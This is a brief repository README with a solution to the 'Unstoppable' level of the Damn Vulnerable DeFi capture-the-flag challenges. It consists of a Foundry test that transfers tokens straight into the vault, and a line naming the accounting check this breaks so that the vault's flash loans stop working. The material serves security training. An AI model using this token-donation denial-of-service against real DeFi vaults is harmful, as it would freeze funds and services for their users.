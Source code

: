 # CTF-Defi
Damn Vulnerable DeFi CTF challenges
## Unstoppable
Test file solution:
```
    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_unstoppable() public checkSolvedByPlayer {
       
        token.transfer(address(vault),1e18);
        vm.expectRevert("UNAUTHORIZED");
        monitorContract.checkFlashLoan(100e18);

    }
```

core attack on:
```
convertToShares(totalSupply) != balanceBefore
```
